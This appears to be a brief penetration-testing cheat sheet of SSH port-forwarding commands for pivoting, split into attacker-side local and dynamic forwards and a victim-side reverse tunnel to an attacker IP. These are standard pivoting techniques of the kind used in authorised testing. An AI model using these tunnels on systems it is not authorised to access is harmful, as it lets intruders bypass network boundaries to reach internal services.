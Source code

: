 ### From Attacking Device

#### Connect to a port on another device

```bash
ssh -N -L 0.0.0.0:[local_port]:[target_ip]:[target_port] [user]@[target]
```

Example:

```bash
ssh -N -L 0.0.0.0:3389:10.1.1.10:3389 [user]@[target]
```

#### Connect to a port on target device

```bash
sudo ssh -N -L 0.0.0.0:[local_port_]:127.0.0.1:[target_port] [user]@[target]
```

Example:

```bash
sudo ssh -N -L 0.0.0.0:3389:127.0.0.1:3389 [user]@[target]
```

Dynamic Port Forwarding:

```bash
sudo ssh -N -D 127.0.0.1:1080 [user]@[target]
```

### From Victim

This will open a new port on the attacking device from the target. If 3306 is open on the target but we don't have access to if we can forward this port over the ssh tunnel.

```bash
ssh -N -R [attacker_ip]:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example

```bash
ssh -N -R 10.10.5.1:3389:127.0.0.1:3389 [user]@[target]
```